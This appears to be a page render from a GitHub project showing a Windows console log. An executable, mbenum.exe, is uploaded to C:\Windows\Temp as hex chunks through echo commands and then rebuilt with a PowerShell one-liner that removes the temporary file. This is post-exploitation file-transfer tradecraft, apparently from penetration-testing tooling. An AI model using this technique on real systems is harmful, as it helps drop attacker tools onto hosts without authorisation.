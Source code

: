 ```bash
echo|set /p="">mbenum.hex

C:\Windows\Temp>   (Progress: 1/388)

C:\Windows\Temp>echo|set /p="4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000e80000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000">>mbenum.hex

echo|set /p="4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000e80000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000">>mbenum.hex

C:\Windows\Temp>   (Progress: 2/388)

C:\Windows\Temp>echo|set /p="fa28c48dbe49aadebe49aadebe49aadec555a6debf49aaded156a1debf49aade3d55a4deae49aaded156a0de8b49aade3d41f7debb49aadebe49abde9049aadeb86aa0debc49aade52696368be49aade000000000000000000000000000000000000000000000000504500004c01030001ea7f3f0000000000000000e0000f01">>mbenum.hex

...SNIP...

C:\Windows\Temp>   (Progress: 385/388)

C:\Windows\Temp>powershell -Command "$h=Get-Content -readcount 0 -path './mbenum.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1};set-content -encoding byte 'mbenum.exe' -value $b;Remove-Item -force mbenum.hex;Get-ChildItem mbenum.exe;"

powershell -Command "$h=Get-Content -readcount 0 -path './mbenum.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1};set-content -encoding byte 'mbenum.exe' -value $b;Remove-Item -force mbenum.hex;Get-ChildItem mbenum.exe;"


   (Progress: 386/388)ows\Temp


[i] Done



Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        09/06/2017     10:21      49152 mbenum.exe




C:\Windows\Temp>
```

_NOTE: May need to press enter to get a prompt back at the end._
